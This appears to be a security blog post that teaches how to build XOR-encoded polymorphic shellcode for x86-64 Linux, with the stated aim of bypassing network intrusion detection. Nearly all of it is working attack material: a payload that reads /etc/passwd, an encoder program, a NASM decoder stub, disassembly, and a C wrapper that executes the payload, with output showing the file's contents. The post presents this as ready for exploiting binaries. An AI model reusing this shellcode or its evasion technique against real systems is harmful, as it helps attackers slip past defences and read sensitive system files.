 ```yaml
---
layout: post
title: "Polymorphic shellcode"
categories: [shellcode]
tags: [shellcode]
description: How to make a polymorphic shellcode on a Linux system to bypass Network Intrusion Detection Systems.
---
```


# 1. Surroundings
```bash
$ uname -a
Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 8.7 (jessie)
Release:	8.7
Codename:	jessie

$ gcc --version
gcc (Debian 4.9.2-10) 4.9.2

$ nasm -v
NASM version 2.11.05 compiled on Sep  9 2014

$ ld --version
GNU ld (GNU Binutils for Debian) 2.25
```

# 2. Explanation
For the second post of the shellcode serie, I will show you the polymorphic shellcode method.
This method has lots of advantages. For example, the encoded shellcode can contain null bytes, she is very easy to implement and also very powerfull to bypass IDS and filters. The shellcode is composed of two parts:
```bash
+--------------------+-------------------+
|                    |                   |
|      DECODER       | ENCODED SHELLCODE |
|                    |                   |
+--------------------+-------------------+
```

As you can see, we will first have the decoder and the encoded shellcode. The aim is first to decode the encoded shellcode thanks to the decoder and then jump on the decoded shellcode to execute code. The operations uses to encoded/decoded the shellcode can be very different, like addition, subtraction, xor, etc. For this post, I have choose the xor algorithm with a very basic key. This shellcode is not the most optimized.

# 3. Shellcode writting
We first need a shellcode to XOR it. I've choose the one of [my previous article](/shellcode/2017/05/28/basic_shellcode.html). To XOR the shellcode, I choose the byte 0x69. This his key is very basic for two reason:

- First because it impact the final shellcode length.

- Second because the next encoded shellcode don't contain this byte. (cf: 1^1 = 0 so null byte)

Let's encoded the shellcode:
```bash
$ cat xor.c
#include <stdio.h>

unsigned char shellcode[] = "\xeb\x39\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x48\x89\xc7\x48\x8d\x34\x24\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\xb7\x01\x48\x89\xc2\x48\x31\xc0\xb0\x01\x0f\x05\x48\x31\xc0\xb0\x3c\x0f\x05\xe8\xc2\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41";

int main(void) {

  for (int i = 0; shellcode[i]; i++) {
    printf("0x%02x,", shellcode[i] ^ 0x69);
  }
  printf("\n");
  return 0;
}

$ gcc xor.c -o xor -std=c99

$ ./xor 
0x82,0x50,0x36,0xe9,0x1e,0x62,0x28,0x21,0x58,0xa9,0x6d,0x6b,0x21,0x58,0x9f,0x66,0x6c,0x21,0xe0,0xae,0x21,0xe4,0x5d,0x4d,0x21,0x58,0xbb,0x0f,0xd3,0x96,0x66,0x21,0x58,0xa9,0x66,0x6c,0x21,0x58,0x96,0x29,0xde,0x68,0x21,0xe0,0xab,0x21,0x58,0xa9,0xd9,0x68,0x66,0x6c,0x21,0x58,0xa9,0xd9,0x55,0x66,0x6c,0x81,0xab,0x96,0x96,0x96,0x46,0x0c,0x1d,0x0a,0x46,0x19,0x08,0x1a,0x1a,0x1e,0x0d,0x28,
```

It's ok for the encoded shellcode part. Now we will do the decoder. It will be a basic loop which will iterate all over the encoded shellcode, XOR every bytes and then jump on the decoded shellcode.
```nasm
_start:
	jmp L1
L2:
	pop rsi                      ; First pop "shell" value to RSI
	xor rcx, rcx
	mov cl, 0x4c                 ; Move "shell" length (76) to cl
L3:
	xor byte [rsi+rcx], 0x69     ; XOR the "shell" byte with the key
	sub cl, 1                    ; Substracte the "shell" length of 1
	jnz L3                       ; Loop if cl is none zero
	xor byte [rsi+rcx], 0x69     ; XOR the last byte
	jmp L4                       ; Jump on the decoded shellcode
L1:
	call L2
L4:
shell:	db 0x82,0x50,0x36,0xe9,0x1e,0x62,0x28,0x21,0x58,0xa9,0x6d,0x6b,0x21,0x58,0x9f,0x66,0x6c,0x21,0xe0,0xae,0x21,0xe4,0x5d,0x4d,0x21,0x58,0xbb,0x0f,0xd3,0x96,0x66,0x21,0x58,0xa9,0x66,0x6c,0x21,0x58,0x96,0x29,0xde,0x68,0x21,0xe0,0xab,0x21,0x58,0xa9,0xd9,0x68,0x66,0x6c,0x21,0x58,0xa9,0xd9,0x55,0x66,0x6c,0x81,0xab,0x96,0x96,0x96,0x46,0x0c,0x1d,0x0a,0x46,0x19,0x08,0x1a,0x1a,0x1e,0x0d,0x28
```

And now the shellcode is ready to pown binary's!

# 4. The shellcode
The final shellcode is on the last schema, now we can assemble it, compile it and check null-bytes:
```bash
$ nasm -f elf64 polymorphic.s -o polymorphic.o

$ ld polymorphic.o -o polymorphic             
ld: warning: cannot find entry symbol _start; defaulting to 0000000000400080

$ objdump -d polymorphic        

polymorphic:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	eb 15                	jmp    400097 <L1>

0000000000400082 <L2>:
  400082:	5e                   	pop    %rsi
  400083:	48 31 c9             	xor    %rcx,%rcx
  400086:	b1 4c                	mov    $0x4c,%cl

0000000000400088 <L3>:
  400088:	80 34 0e 69          	xorb   $0x69,(%rsi,%rcx,1)
  40008c:	80 e9 01             	sub    $0x1,%cl
  40008f:	75 f7                	jne    400088 <L3>
  400091:	80 34 0e 69          	xorb   $0x69,(%rsi,%rcx,1)
  400095:	eb 05                	jmp    40009c <L4>

0000000000400097 <L1>:
  400097:	e8 e6 ff ff ff       	callq  400082 <L2>

000000000040009c <L4>:
  40009c:	82                   	(bad)  
  40009d:	50                   	push   %rax
  40009e:	36 e9 1e 62 28 21    	ss jmpq 216862c2 <__bss_start+0x210852c2>
  4000a4:	58                   	pop    %rax
  4000a5:	a9 6d 6b 21 58       	test   $0x58216b6d,%eax
  4000aa:	9f                   	lahf   
  4000ab:	66 6c                	data16 insb (%dx),%es:(%rdi)
  4000ad:	21 e0                	and    %esp,%eax
  4000af:	ae                   	scas   %es:(%rdi),%al
  4000b0:	21 e4                	and    %esp,%esp
  4000b2:	5d                   	pop    %rbp
  4000b3:	4d 21 58 bb          	and    %r11,-0x45(%r8)
  4000b7:	0f d3 96 66 21 58 a9 	psrlq  -0x56a7de9a(%rsi),%mm2
  4000be:	66 6c                	data16 insb (%dx),%es:(%rdi)
  4000c0:	21 58 96             	and    %ebx,-0x6a(%rax)
  4000c3:	29 de                	sub    %ebx,%esi
  4000c5:	68 21 e0 ab 21       	pushq  $0x21abe021
  4000ca:	58                   	pop    %rax
  4000cb:	a9 d9 68 66 6c       	test   $0x6c6668d9,%eax
  4000d0:	21 58 a9             	and    %ebx,-0x57(%rax)
  4000d3:	d9 55 66             	fsts   0x66(%rbp)
  4000d6:	6c                   	insb   (%dx),%es:(%rdi)
  4000d7:	81 ab 96 96 96 46 0c 	subl   $0x460a1d0c,0x46969696(%rbx)
  4000de:	1d 0a 46 
  4000e1:	19 08                	sbb    %ecx,(%rax)
  4000e3:	1a 1a                	sbb    (%rdx),%bl
  4000e5:	1e                   	(bad)  
  4000e6:	0d                   	.byte 0xd
  4000e7:	28                   	.byte 0x28
```

Everything might be correct.

# 5. Demonstration
And the final C wrapper to test the shellcode:
```c
#include <stdio.h>
#include <string.h>

char shellcode[] = "\xeb\x15\x5e\x48\x31\xc9\xb1\x4c\x80\x34\x0e\x69\x80\xe9\x01\x75\xf7\x80\x34\x0e\x69\xeb\x05\xe8\xe6\xff\xff\xff\x82\x50\x36\xe9\x1e\x62\x28\x21\x58\xa9\x6d\x6b\x21\x58\x9f\x66\x6c\x21\xe0\xae\x21\xe4\x5d\x4d\x21\x58\xbb\x0f\xd3\x96\x66\x21\x58\xa9\x66\x6c\x21\x58\x96\x29\xde\x68\x21\xe0\xab\x21\x58\xa9\xd9\x68\x66\x6c\x21\x58\xa9\xd9\x55\x66\x6c\x81\xab\x96\x96\x96\x46\x0c\x1d\x0a\x46\x19\x08\x1a\x1a\x1e\x0d\x28";

int main(void) {
  printf("Shellcode length: %d\n", strlen(shellcode));
  (*(void (*)()) shellcode)();
  return 0;
}
```

We can now compile it and test it:
```bash
$ gcc wrapper.c -z execstack

$ ./a.out 
Shellcode length: 104
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
...
```

Done.
